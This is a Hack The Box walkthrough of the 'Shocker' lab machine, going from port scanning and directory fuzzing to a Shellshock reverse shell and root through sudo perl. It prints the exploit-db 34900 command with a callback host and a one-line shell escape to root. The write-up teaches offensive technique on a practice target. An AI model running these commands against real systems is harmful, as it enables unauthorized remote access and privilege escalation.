

# Shocker

[Shocker](https://app.hackthebox.com/machines/108) is a an easy box and once you get the idea it is really easy to get its access and even escalate your privileges. But the only trick part is to get the idea of the starting point because there are aren't many things that you can look at to exploit.

But let's see how this machine can be pwned.

## Enumeration

The first thing that we must do is run an `nmap` scan to determine all the ports that are open.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ sudo nmap -p- -T4 -sS -Pn -oG open_ports 10.10.10.56
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 22:43 EDT
Nmap scan report for 10.10.10.56
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 822.43 seconds
```

The next task is to perform a details scan for all these ports to determine the versions of services that are running over these ports.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ sudo nmap -p80,2222 -sV -sC -O -oG port_details 10.10.10.56
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 23:03 EDT
Nmap scan report for 10.10.10.56
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.79 seconds
```

From the scan results, it can be seen that only port 80 and 2222 are open and there are no direct RCE exploits available for both of them. But as we have port 80 open, we can try to access the IP address from the browser.



There is no useful information even in the source-code of this page. But we can definitely try to perform a directory brute-force attack to find out any hidden directories.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ ffuf -u http://10.10.10.56/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

# on atleast 2 different hosts [Status: 200, Size: 137, Words: 9, Lines: 10]
# This work is licensed under the Creative Commons  [Status: 200, Size: 137, Words: 9, Lines: 10]
# Priority ordered case sensative list, where entries were found  [Status: 200, Size: 137, Words: 9, Lines: 10]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 137, Words: 9, Lines: 10]
# directory-list-2.3-medium.txt [Status: 200, Size: 137, Words: 9, Lines: 10]
#                       [Status: 200, Size: 137, Words: 9, Lines: 10]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 137, Words: 9, Lines: 10]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 137, Words: 9, Lines: 10]
#                       [Status: 200, Size: 137, Words: 9, Lines: 10]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 137, Words: 9, Lines: 10]
# Copyright 2007 James Fisher [Status: 200, Size: 137, Words: 9, Lines: 10]
#                       [Status: 200, Size: 137, Words: 9, Lines: 10]
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
#                       [Status: 200, Size: 137, Words: 9, Lines: 10]
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
:: Progress: [220560/220560] :: Job [1/1] :: 398 req/sec :: Duration: [0:09:15] :: Errors: 0 ::
```

But as it can be seen nothing was found. This appeared to be a dead end but then I tried to use the web-content discovery list from seclists which gave me some interesting results.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
:: Progress: [4713/4713] :: Job [1/1] :: 388 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

And here it can be seen that the `cgi-bin` directory was detected. This directory is usually used to store scripts that need to be executed for web page's functionalities. So, we can further brute-force this directory to see if we can find something useful here.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .sh,.pl

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .sh .pl 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#.pl                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#.pl                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#                       [Status: 403, Size: 294, Words: 22, Lines: 12]
#.sh                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#.sh                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#                       [Status: 403, Size: 294, Words: 22, Lines: 12]
#.sh                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#.pl                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#.pl                    [Status: 403, Size: 294, Words: 22, Lines: 12]
#.sh                    [Status: 403, Size: 294, Words: 22, Lines: 12]
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Here, we can see that there is a shell script present in that directory. 

## Gaining Foothold 

The `user.sh` script can be retreived using `wget`.

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ man ffuf       
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ wget http://10.10.10.56/cgi-bin/user.sh
--2022-08-18 23:55:41--  http://10.10.10.56/cgi-bin/user.sh
Connecting to 10.10.10.56:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/x-sh]
Saving to: ‘user.sh’

user.sh                           [ <=>                                            ]     118  --.-KB/s    in 0.001s  

2022-08-18 23:55:41 (144 KB/s) - ‘user.sh’ saved [118]

                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ cat user.sh           
Content-Type: text/plain

Just an uptime test script

 23:55:41 up  1:39,  0 users,  load average: 0.00, 0.00, 0.0o
```

It looks like this script is just for testing purposes but we can try to see if it can be exploited in some way. Right from a quick google search we can determine that there is a vulnerability called as Shellshock through which you can send a request with a modified User-Agent having a command that you want to execute on the target. In our case our goal is to gain a reverse shell. We can create a request by our own and start a listener or we can use [this script](https://www.exploit-db.com/exploits/34900),

```
┌──(kali㉿kali)-[~/Desktop/htb/shocker]
└─$ python2.7 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.16.4 lport=1337 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56> pwd
/usr/lib/cgi-bin
```

And there we get the access to the machine as user `shelly`. The next task is to escalate our privileges to root.

## Privilege Escalation

The first that we can do is check if we can execute any commands as root or any other user.

```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

And it looks like we can run `perl` commands as root. So, we can quickly head over to [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#suid) to see how we can utilize this command to escalate our privileges.

```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
10.10.10.56> root

10.10.10.56> cd /root
10.10.10.56> cat root.txt
```

And there we get the final root flag!

## Key Points to Take Away
1. If you hit a dead end try to use specific target based wordlists for enumeration. It is possible that you won't find anything from the general wordlist.

## References
1. [Shocker](https://app.hackthebox.com/machines/108)
2. [Shellshock Remote Code Injection](https://www.exploit-db.com/exploits/34900)
3. [GTFOBins](https://gtfobins.github.io)
